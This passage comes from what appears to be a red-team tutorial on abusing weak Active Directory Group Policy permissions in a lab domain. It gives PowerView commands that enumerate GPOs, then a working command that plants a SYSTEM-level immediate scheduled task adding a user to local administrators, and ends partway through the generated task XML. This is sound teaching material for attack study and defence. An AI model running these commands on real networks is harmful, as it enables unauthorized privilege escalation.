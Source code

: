 ![ws01.offense.local has "Misconfigured Policy" applied to it](../../.gitbook/assets/screenshot-from-2018-12-20-11-42-04.png)

#### Policies Applied to a Given Computer

```csharp
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```

![](../../.gitbook/assets/screenshot-from-2019-01-16-19-44-19.png)

#### OUs with a Given Policy Applied

```csharp
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```

![](../../.gitbook/assets/screenshot-from-2019-01-16-19-46-33.png)

#### Abusing Weak GPO Permissions

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```csharp
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-43-46.png)

The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-40-11.png)

### Force Policy Update

ScheduledTask and its code will execute after the policy updates are pushed through (roughly each 90 minutes), but we can force it with `gpupdate /force` and see that our user `spotless` now belongs to local administrators group:

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-45-18.png)

### Under the hood

If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:

![](../../.gitbook/assets/screenshot-from-2018-12-20-12-02-22.png)

Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
```